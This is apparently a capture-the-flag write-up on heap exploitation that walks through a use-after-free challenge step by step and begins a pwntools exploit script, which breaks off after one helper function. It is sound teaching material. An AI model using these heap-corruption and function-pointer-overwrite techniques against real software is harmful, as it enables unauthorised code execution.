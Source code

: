```yaml
---
title: Don't Heap All of This Work On Me
date: "2020-06-28 20:20:31.582772"
description: "Introducing the exploits that I've found the hardest - Heap Exploits"
categories: ["code"]
---
```


# Don't Heap All of This Work On Me

_- Atharv Damle _

---

## usemedontabuseme

---

FLAG{REDACTED}

---

Heap exploits have generally been hard for me to wrap my head around, and they escalate really fast, as you will see in this writeup:

Lets start with a basic heap exploit. The classic use-after-free. Because there are no checks for whether a part of the heap was freed or not before writing to it, it is rather easy to corrupt heap memory, manipulating it so that it allows for arbitrary reads and writes.

For the first one, we:

1. Malloc and then free 3 nodes.
   1. Currently the bins looks like: 2 -> 1 -> 0 -> NULL (nodes are not in order)
2. Then we print out the address stored in free nodes 1 or 2, which points to an address on the heap
3. Now that we have a heap address, we can forge a chunk by offseting the start of a legitimate chunk such that the name string overlaps with the function pointer.
   1. The new bins look like: 1 -> 2 -> Forged -> (garbage)
4. Then we malloc 2 new chunks to empty the bins
5. Finally we malloc our forged chunk.
6. Write to this forged chunk, which ends up overwriting the function pointer of another chunk. Overwrite with the address of the `win` function and the `0x6447` parameter
7. `cat flag`

```python
#!/usr/bin/python3

from pwn import *

global p
p = process('./usemedontabuseme')
#p = remote('plsdonthaq.me', 7000)

def menu():
    p.recvuntil("Choice: ")

def make(index,name):
    log.info("Make: {}".format(index))
    p.sendline("a")
    p.recvuntil("Clone ID:",timeout=0.1)
    p.sendline(str(index))
    p.recvuntil("Enter Name")
    p.sendline(name)
    menu()

```